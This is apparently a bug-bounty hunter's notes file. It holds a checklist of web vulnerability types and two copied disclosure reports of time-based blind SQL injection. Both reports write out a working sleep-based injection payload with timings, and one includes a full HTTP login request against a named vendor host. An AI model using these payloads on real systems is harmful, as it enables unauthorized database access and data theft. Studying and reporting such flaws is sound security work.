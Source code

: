 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection


A1: Injection
0
0
A2: Broken Authentication
0
0
A3: Sensitive Data Exposure
0
0
A4: XML External Entities (XXE)
0
0
A5: Broken Access Control
0
0
A6: Security Misconfiguration
0
N/A
A7: Cross-Site Scripting (XSS)
0
0
A8: Insecure Deserialization
0
N/A
A9: Using Components with Known Vulnerabilities
N/A
N/A
A10: Insufficient Logging & Monitoring

# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions
